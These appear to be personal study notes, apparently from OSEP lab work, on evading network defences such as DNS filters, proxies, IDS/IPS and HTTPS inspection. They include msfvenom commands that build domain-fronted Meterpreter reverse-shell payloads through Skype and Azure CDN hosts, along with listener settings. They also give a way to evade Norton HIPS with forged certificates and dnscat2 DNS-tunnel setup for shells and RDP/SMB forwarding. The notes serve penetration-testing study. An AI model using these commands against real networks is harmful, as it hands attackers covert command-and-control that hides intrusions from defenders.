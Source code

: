     1. DNS Filters
        //blocklists can result in dropped traffic or sinkholed traffic
            ex. with OpenDNS:  sudo bash -c "echo nameserver 208.67.222.222 > /etc/resolv.conf"; nslookup www.internetbadguys.com
        //domain reputation can be used - check w/ IPVoid; or categories can be used - check w/ OpenDNS or Symantec category checker
        //pick something that's aged and appears legitimate w/ some legit content
    2. Web Proxies
        //MITM that can perform URL and IP filtering and HTTPS inspection; will likely log stuff
        //can actively modify data - http headers, etc. or block certain user-agents
        //To Bypass:
            **ensure that payload is proxy-aware (Meterpreter is)
            ensure that traffic on 80/443 follows http standards, not custom tcp
            set User-Agent to one that is permitted by the org - set HttpUserAgent in Meterpreter
    3. IDS and IPS Sensors
        //perform deep packet inspection and reassemble fragmented traffic, comparing against signatures
        //bypass by altering traffic patterns
        ex. bypassing Norton HIPS (part of Norton 360/Symantec Endpoint Protection) detection of Meterpreter https certificate
            //one option - get real ssl cert, not self-signed
            //can create custom self-signed w/ Metasploit's impersonate_ssl module, or w/ openssl
            //**Openssl method:  
                openssl req -new -x509 -nodes -out cert.crt -keyout priv.key
                cat priv.key cert.crt > nasa.pem
                //In /etc/ssl/openssl.cnf:  change CipherString=DEFAULT@SECLEVEL=2 to CipherString=DEFAULT
                //MSF:  set HandlerSSLCert /home/kali/Desktop/OSEP/self_cert/nasa.pem
    4. Full Packet Capture Devices
        //network taps - ex. Netwitness, Moloch - used for post-attack analysis
        //goal: blend in and lower profile - use a good C2 IP geo, etc.
    5. HTTPS Inspection
        //usually on a dedicated device - high resource
        //**Certificate pinning in Meterpreter - set StagerVerifySSLCert true, and set HandlerSSLCert
            //will abort connection if certs don't match
        //some site categories (like banking) won't be inspected
    6. Domain Fronting
        //bypass technique for multiple systems; powered by CDNs
        //background:
            vhosts, host headers
            TLS Server Name Indication (SNI) field in the TLS Client Hello tells the server what certificate to use
            CDNs serve content based on the Host header
        ex. make an HTTPS connection to a server and set the SNI to indicate that we are accessing www.example1.com. Once the TLS session is established and we start the HTTP session (over TLS), we can specify a different domain name in the Host header, for example www.example2.com. This will cause the webserver to serve content for that website instead. If our target is not performing HTTPS inspection, it will only see the initial connection to www.example1.com, unaware that we were connecting to www.example2.com
        //works by establishing a connection to a good site hosted by a cdn, then once TLS is established, changing the Host header to point to the malicious site hosted by the same CDN - so traffic looks like it's going to the good site
            //FindFrontableDomains script - finds domains hosted on the same CDN - you don't have to control the frontable one, just change the header!
            ex. test:  curl --header "Host: offensive-security.azureedge.net" http://do.skype.com - check http and https
            MSF:  msfvenom -p windows/x64/meterpreter/reverse_http LHOST=do.skype.com LPORT=80 HttpHostHeader=offensive-security.azureedge.net -f exe > http-df.exe
            Listener:  set LHOST do.skype.com; set OverrideLHOST do.skype.com; set OverrideRequestHost true; set HttpHostHeader offensive-security.azureedge.net
        //Fine as long as there's no HTTPS inspection!
        ex. in lab:  msfvenom -p windows/x64/meterpreter_reverse_https HttpHostHeader=cdn123.offseccdn.com LHOST=good.com LPORT=443 -f exe > https-df.exe
    7. *DNS Tunneling
        //way to bypass proxy, IPS, and firewall rules
        //you must control both ends of the communication - register a DNS server for a target domain (w/ NS record)
        //client can only encapsulate data as subdomains; server can return data in various fields
        //client must continuously beacon back
        //Tool: dnscat2
            //Setup - pick target domain to use (ex. *.tunnel.com), and ensure DNS server points to you:
                /etc/dnsmasq.conf:
                    server=/tunnel.com/<kaliIP>
                    server=/somedomain.com/<kaliIP>
                systemctl restart dnsmasq
            //Server Usage:
                dnscat2-server tunnel.com; then use provided command on client/target (must have dnscat.exe)
                session -i 1; shell; session -i 2
                **can add tunnels too! - ex.  listen 127.0.0.1:3389 172.16.51.21:3389
                    ** use for tunneling SMB, RDP, etc.!!